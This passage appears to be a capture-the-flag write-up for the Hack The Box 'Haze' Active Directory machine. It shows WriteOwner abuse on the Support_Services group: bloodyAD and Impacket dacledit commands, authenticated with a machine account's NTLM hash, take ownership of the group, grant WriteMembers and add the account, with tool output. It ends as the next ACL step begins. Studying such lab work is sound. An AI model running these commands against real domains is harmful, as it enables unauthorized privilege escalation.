 ## LM: Haze-IT-Backup$ → Support_Services

After reviewing the BloodHound data, we see that the `Haze-IT-Backup$` service account has the `WriteOwner` ACL over the **Support_Services** domain group:

![image.png](image%209.png)

### Taking Object Ownership

We use `bloodyAD` to take ownership of the **Support_Services** domain group:

```bash
bloodyAD -d HAZE.HTB --dc-ip 10.10.11.61 \
-u 'Haze-IT-Backup$' -p ':4de830d1d58c14e241aff55f82ecdba1' \
set owner "Support_Services" "Haze-IT-Backup$"
```

```
[+] Old owner S-1-5-21-323145914-28650650-2368316563-512 is now replaced by Haze-IT-Backup$ on Support_Services
```

### Granting WriteMembers Right

We then use the `dacledit.py` script from the **Impacket** suite to give ourselves the `WriteMembers` right over the **Support_Services** domain group:

```bash
impacket-dacledit HAZE.HTB/'Haze-IT-Backup$' -hashes ':4de830d1d58c14e241aff55f82ecdba1' \
-principal 'Haze-IT-Backup$' -target 'Support_Services' -rights 'WriteMembers' -action write
```

```
...
[*] DACL backed up to dacledit-20250626-113723.bak
[*] DACL modified successfully!
```

### Adding a Controlled User

Next, we use the `bloodyAD` tool to add the controlled `Haze-IT-Backup$` service account to the **Support_Services** domain group:

```bash
bloodyAD -d HAZE.HTB --dc-ip 10.10.11.61 \
-u 'Haze-IT-Backup$' -p ':4de830d1d58c14e241aff55f82ecdba1' \
add groupMember "Support_Services" "Haze-IT-Backup$"
```

```
[+] Haze-IT-Backup$ added to Support_Services
```

## LM: **Support_Services → edward.martin**

After reviewing the BloodHound data, we see that the members of the **Support_Services** domain group have the `ForceChangePassword` and `AddKeyCredentialLink` ****ACLs over the `edward.martin` user:
